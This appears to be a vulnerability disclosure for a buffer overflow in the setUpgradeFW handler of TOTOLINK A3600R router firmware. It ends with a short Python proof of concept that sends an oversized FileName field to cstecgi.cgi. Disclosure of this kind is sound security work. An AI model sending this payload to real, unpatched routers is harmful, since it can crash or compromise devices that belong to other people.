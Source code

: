 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `setUpgradeFW ` function. The `v8` variable receives the `FileName` parameter from a POST request. However, since the user can control the input of `FileName`, the `sprintf` can cause a buffer overflow vulnerability.

![image-20240721014417007](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721014417007.png)

![image-20240721014424910](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721014424910.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"FileName":"a"*0x1000,"topicurl":"setUpgradeFW"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721014518345](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721014518345.png)

